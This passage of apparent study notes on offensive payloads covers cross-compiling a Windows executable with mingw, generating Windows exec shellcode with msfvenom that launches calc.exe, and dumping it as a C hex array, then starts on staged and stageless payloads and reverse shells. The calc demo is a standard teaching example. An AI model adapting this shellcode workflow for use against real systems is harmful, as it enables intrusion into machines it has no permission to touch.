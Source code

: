 ```c
```

Convert c file into exec to be executed in Windows
```
i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```


**Storing Shellcode in bin Files**

Use msfvenom to create a bin payload
a - x86 architecture 
platform - platform that the payload will run on
p - windows payload type
cmd - the executable to run in windows
f - type of data
```shell
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
```

Convert the binary data into hexidecminal 
```c
xxd -i example.bin

unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
  0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
  0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
  0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
  0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
  0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
  0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
  0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
  0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
  0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
  0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00,
  0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5,
  0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65,
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```


I was confused as to why I needed to convert the shellcode into hexidecimal. 
But if you want to place the shellcode into a C program for example, you can't do this with binary. 
The C program still needs to allocate the memory on the Windows machine to inject the shellcode. 
## Staged Payloads 

**Stageless Payloads**

- Stageless payloads have only one step in terms of infecting an application. 
- When the payload first executes it will often create a reverse shell back to the attacker's machine, and that's it.
